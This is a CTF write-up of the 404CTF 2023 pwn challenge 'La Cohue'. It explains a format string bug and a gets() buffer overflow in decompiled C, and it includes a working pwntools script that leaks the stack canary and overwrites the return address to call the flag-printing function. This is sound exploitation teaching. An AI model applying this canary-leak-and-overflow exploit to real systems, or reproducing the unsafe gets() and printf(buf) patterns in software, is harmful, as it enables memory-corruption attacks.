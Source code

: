 ```yaml
---
title: CTFs | 404CTF2023 | Pwn | La Cohue
author: Stillwolfing
date: 2023-06-14
categories: ['CTFs', '404CTF2023', 'Pwn']
tags: ['CTFs', '404CTF2023', 'Pwn']
permalink: /CTFs/404CTF2023/pwn/la_cohue
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/pwn/la_cohue/context.png)

We are given this code:

```c
void choices(void)

{
  bool bVar1;
  bool bVar2;
  int has_choose;
  long in_FS_OFFSET;
  int choice;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  choice = 0;
  bVar1 = false;
  bVar2 = false;
  while( true ) {
    while( true ) {
      do {
        puts("Que faites-vous ?");
        puts("\n1 : Aller voir Francis");
        puts(&DAT_00400c18);
        puts(&DAT_00400c4a);
        printf(">>> ");
        fflush(stdout);
        has_choose = __isoc99_scanf(&DAT_00400c6d,&choice);
        if (has_choose != 1) {
                    /* WARNING: Subroutine does not return */
          exit(0);
        }
      } while ((choice < 1) || (6 < choice));
      if (choice != 2) break;
      if (bVar2) {
        puts(&DAT_00400d90);
      }
      else {
        fgets(local_58,0x40,stdin);
        fgets(local_58,0x40,stdin);
        printf("[Vous] : ");
        printf(local_58);
        puts("");
        bVar2 = true;
      }
    }
    if (choice == 3) break;
    if (choice == 1) {
      if (bVar1) {
        puts(
            "\n[Francis] : Je crains que je ne puisse plus compter sur vous pour m\'aider, malheureu sement.\n"
            );
      }
      else {
        puts(&DAT_00400cd0);
        printf("[Vous] : ");
        fgets(local_58,0x40,stdin);
        gets(local_58);
        puts(&DAT_00400d50);
        bVar1 = true;
      }
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

There is also another function:

```c
void canary(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts(&DAT_00400b98);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x48,__stream);
  puts(local_58);
  fclose(__stream);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The canary functions gives the flag so we need to find a way to call this function.

Since there is only one return in the choice function, we have to replace the return address with the canary function address.

```c
gets(local_58);
```

The gets() function reads characters from the input stream and stores them in the buffer until it encounters a newline character or the end of file (EOF) indicator. However, gets() does not perform any bounds checking on the size of the input being read, which means it can write more data into the buffer than it can actually hold.

If we provide input that exceeds the buffer's size, the extra data will overflow into adjacent memory locations, potentially overwriting important data such as function return addresses.

The fact is that the stack is protected by a canary (in_FS_OFFSET + 0x28 variable). The code checks if the canary has been modified before returning.

```c
fgets(local_58,0x40,stdin);
printf("[Vous] : ");
printf(local_58);
```

This code is vulnerable to a format string vulnerability because the printf function does not specify a format string, but directly uses the content of the local_58 buffer as the format string. This can be problematic because if the user inputs a string that contains format specifiers (such as %s, %d, etc.), the printf function will interpret them and try to read values from the stack corresponding to those specifiers. If the values are not present or are incorrect, it can lead to memory corruption, crashes, or even arbitrary code execution.

To display the canary, which is a security mechanism used to detect buffer overflows, an attacker could provide a carefully crafted format string as input. For example, if the canary is stored on the stack before the local_58 buffer, the attacker could include a format specifier in their input like %p to read the values from the stack. By repeatedly including format specifiers and observing the output, the attacker can eventually retrieve the canary value.

Example:

![format_string](/assets/img/CTFs/404CTF2023/pwn/la_cohue/format_string.png)

We can leak the canary:

![canary_leak](/assets/img/CTFs/404CTF2023/pwn/la_cohue/canary_leak.png)

The 17th value ends with 00. It may be the canary.

Now we have to craft our payload.

```
payload = "A" * 0x48 + canary + "A" * 8 + canary_function_address
```

Here's my implementation to get the flag. We get the canary value with the format string vulnerability. Then we craft the payload and use the buffer overflow vulnerability to override the return address. Then we exit the function and get the flag.

```python
import pwn
import time
import warnings
warnings.filterwarnings("ignore")


def voir_francis(conn, msg):
    conn.sendline("1")
    rep = conn.recvuntil(": ").decode()
    conn.sendline(msg)
    rep = conn.recvuntil(">>> ").decode()
    return rep


def reflechir(conn, msg):
    conn.sendline("2")
    conn.sendline(msg)
    rep = conn.recvuntil(">>> ").decode()
    return rep


def partir(conn):
    conn.sendline("3")
    rep = conn.recvline().decode()
    return rep


win = pwn.p64(0x0000000000400877)

conn = pwn.remote("challenges.404ctf.fr", 30223)

rep = conn.recvuntil(">>> ").decode()
print(rep)

canary_payload = "%17$p"
print(canary_payload)

rep = reflechir(conn, canary_payload)
print(rep)

canary = rep.split("[Vous] : ")[1].split("\n")[0]
print("Canary:", canary)

overwrite = b'A' * 0x48
overwrite += pwn.p64(int(canary, 16))
overwrite += b'A' * 8
overwrite += win

print(overwrite)

rep = voir_francis(conn, overwrite)
print(rep)

conn.sendline("3")
rep = conn.recvuntil(b"}")
print(rep.decode())

```

We get the flag 🥳 !

![flag](/assets/img/CTFs/404CTF2023/pwn/la_cohue/flag.png)

I hope you learned something with this writeup 😊.

{% capture current_hour %}{{ site.time | date: "%H" }}{% endcapture %}

{% if current_hour >= "05" and current_hour < "12" %}
  Have a good day !
{% elsif current_hour >= "12" and current_hour < "18" %}
  Have a good afternoon !
{% else %}
  Have a good night !
{% endif %}









